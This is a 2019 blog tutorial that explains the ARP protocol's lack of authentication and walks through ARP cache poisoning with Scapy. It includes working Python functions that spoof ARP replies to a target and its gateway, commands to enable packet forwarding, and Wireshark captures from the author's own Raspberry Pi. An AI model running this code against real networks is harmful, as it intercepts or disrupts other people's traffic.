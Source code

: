 ```yaml
---
title: "A Look into ARP cache poisoning and using it to perform MITM attack"
date: 2019-07-24
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - ARP cache poisoning
  - Scapy
---
```


# What is ARP?
At the lowest level, a switch connects a bunch of hosts. If a protocol P on a host S wants to send some information to another host R on the network, S needs to find out the Ethernet address of R before it can transmit the packet. There must be a mapping of the address of R in protocol Ps address space to a 48-bit Ethernet address, to get the Ethernet address of R. The Address Resolution Protocol (ARP) provides this resolution. 


## ARP Messages
In this blog post, we are mainly concerned with two types of ARP messages.

1.	ARP Request, and
2.	ARP Reply

The ARP packet has the following format.

![ARP Packet Format](../../assets/images/arp-spoofing/main-arp-format.png)

In IPv4 over Ethernet, the sender or receiver protocol address refers to the IP address of the sender or receiver. The hardware address refers to the 48-bit Ethernet address. To resolve a host with an IP address, say for example X.X.X.X, S broadcasts (Target hardware address is FF:FF:FF:FF:FF:FF or all 1s) out an ARP request with the sender protocol address field set to our IP address, say for example Y.Y.Y.Y, asking

  “Who is X.X.X.X? tell Y.Y.Y.Y”

All the hosts on the network check to see if the target IP address matches their address on receiving the ARP request. The host ‘X.X.X.X,’ on seeing that its IP address matches the one in the ARP request, sends out an ARP reply to Y.Y.Y.Y along with its Ethernet address. Once S receives the ARP request, it adds the Ethernet address of R to a cache table and starts sending out whatever packets protocol P has to send.

The following image gives an example of the ARP request and response. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-arp.png)

# ARP Spoofing
The main issue of ARP lies in the fact that there is no authentication of the ARP reply, i.e., any host can send an ARP reply claiming to be the Target. There is no check done by ARP to verify if the host that has sent the ARP reply is whom it claims to be. 

If host A wants to send data to host B on the same network, it will first resolve the hardware address using host B’s IP address, and then sends the data. If we send an ARP reply claiming to be host B, host A will update its cache with our Ethernet address. All subsequent messages are sent to us. If instead host A wants to send data to a host X, not on the same network, host A will send it to the default gateway which will then forward the message to the appropriate router. To intercept these messages, we need to send an ARP reply claiming to be the default gateway. Once we poison the target’s cache, we can either choose to forward the packets performing a man-in-the-middle attack (MITM) or drop them performing a denial of service attack.

## Performing ARP Cache Poisoning
To poison a target's ARP cache, we need the target's MAC address. To get the MAC address, we
can send ARP request packet to the target. This can be done the following way.

```python
def get_mac(ip):
	# Create an ARP packet with the target as the destination 
  arp = Ether()/ARP(pdst=ip)
	
  # Send the ARP request and get the response
  resp = srp1(arp)

  # Return the target's MAC address
	return (resp[Ether].src)
```

Once we get the target's MAC address, we can poison its cache by continously sending spoofed ARP responses. The function *poison_arp_cache* is looped forever until the user exits. This is because
the target might try to flush it's ARP cache and send out an ARP request. To prevent it from overwriting our spoofed ARP cache entry, we must keep sending it spoofed ARP responses. 

```python
def poison_arp_cache(target_ip, target_mac_addr, spoofed_ip, spoofed_mac_addr=Ether().src):
	# Create the ARP response
	spoofed_resp = Ether()/ARP()

	# Set the destination MAC address
	spoofed_resp[Ether].dst = target_mac_addr
	spoofed_resp[ARP].hwdst = target_mac_addr

	# Set the destination IP address
	spoofed_resp[ARP].pdst = target_ip

	# Set the spoofed MAC address
	spoofed_resp[Ether].src = spoofed_mac_addr
	spoofed_resp[ARP].hwsrc = spoofed_mac_addr

	# Set the spoofed IP address
	spoofed_resp[ARP].psrc = spoofed_ip

	# is-at (response)
	spoofed_resp[ARP].op = 2

	#print(spoofed_resp[0].show())
	sendp(spoofed_resp)
```
On trying the above code fragments with the target as a Raspberry Pi 3B+ on the same network as my 
laptop, we get the following results.

### Before ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-before.png)

### After ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-after.png)

We can see that we have successfully overwritten the target's cache table with my laptop's MAC address. All subsequent messages will now be sent to my laptop. But to prevent a DOS attack, we must forward the packets to the destination. This involves poisoning the destination's ARP cache table too. If the destination is not on the same network, we must poison the default gateway's cache table. To poison the default gateway, we need its IP address and MAC address. We can get them in the following manner. 

```python
def get_default_gateway_details():
	# Send a request to any host outside our network with the TTL set to 0
	p = srp1(Ether()/IP(dst="www.google.com", ttl = 0)/ICMP()/"XXXXXXXXXXX")

	# Return the source's IP address and MAC address
	return p[IP].src, p[Ether].src
```

In the *get_default_gateway_ip* function, since the TTL is set to zero, the first host on the route which is the default gateway, responds with an ICMP error message {TTL Zero During Transit}. We then read the ICMP error message to get the default gateway's IP address, and MAC address.

To perform the MITM attack, we can use the following function.

```python
def perform_mitm(target_ip):
	# Get default gateway's network details
	default_gateway_ip, default_gateway_mac = get_default_gateway_details()

	# Get target's MAC address
	target_mac = get_mac(target_ip)

	# Keep sending spoofed ARP responses
	while True:
		# Poison target's ARP cache table
		poison_arp_cache(target_ip, target_mac, default_gateway_ip)
		# print(f"Sent ARP reply to {target_ip}")

		# Poison default gateway's ARP cache table
		poison_arp_cache(default_gateway_ip, default_gateway_mac, target_ip)
		# print(f"Sent ARP reply to {default_gateway_ip}")
```

#### Side Note on Enabling Packet Forwarding
To allow packets from the target or the gateway are forwarded, we must enable packet forwarding so that our system acts as a router. Whenver a packet not destined to us arrives, the os automatically forwards to the appropriate host. 

To enable this on linux, we must do the following.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

On windows, we must carry out the following steps.

1. Open Regedit as adminstrator,
2. Navigate to the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip\Parameters\IPEnableRouter setting,
3. Right click and select Modify,
4. Change 0 to 1 and exit the editor,
5. Type services.msc in the command prompt,
6. Navigate to the Routing and Remote Access service, 
7. Right click and select Properties, 
8. Change to Automatic and click on Start to start the service.

### Experiments
On running the *perform_mitm* function, we now receive all communications between the gateway and the target. This can be seen in wireshark. On sending GET request to *www.resonous.com*, we can see the request in my laptop.

![ARP Packet Format](../../assets/images/arp-spoofing/curl-resonous.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get-depth.png)

Since the GET request resulted in moved result. We can curl the website over https in the following manner. 

![ARP Packet Format](../../assets/images/arp-spoofing/res-https.png)

The same can be seen in wireshark. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-https-depth.png)

That's it for this post. The complete script is available at my github [page][page]


[page]: https://github.com/venkat-abhi/arp-cache-poisoner